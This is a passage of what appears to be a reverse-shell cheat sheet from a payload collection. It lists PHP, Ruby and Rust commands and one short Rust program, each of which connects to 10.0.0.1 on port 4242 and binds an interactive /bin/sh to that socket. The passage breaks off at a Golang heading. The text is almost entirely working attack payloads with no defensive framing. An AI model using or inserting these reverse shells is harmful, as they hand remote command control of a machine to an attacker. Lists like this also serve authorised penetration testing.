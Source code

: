 ### PHP

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

ruby -rsocket -e'exit if fork;c=TCPSocket.new("10.0.0.1","4242");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'

NOTE: Windows only
ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### Rust

```rust
use std::net::TcpStream;
use std::os::unix::io::{AsRawFd, FromRawFd};
use std::process::{Command, Stdio};

fn main() {
    let s = TcpStream::connect("10.0.0.1:4242").unwrap();
    let fd = s.as_raw_fd();
    Command::new("/bin/sh")
        .arg("-i")
        .stdin(unsafe { Stdio::from_raw_fd(fd) })
        .stdout(unsafe { Stdio::from_raw_fd(fd) })
        .stderr(unsafe { Stdio::from_raw_fd(fd) })
        .spawn()
        .unwrap()
        .wait()
        .unwrap();
}
```
### Golang
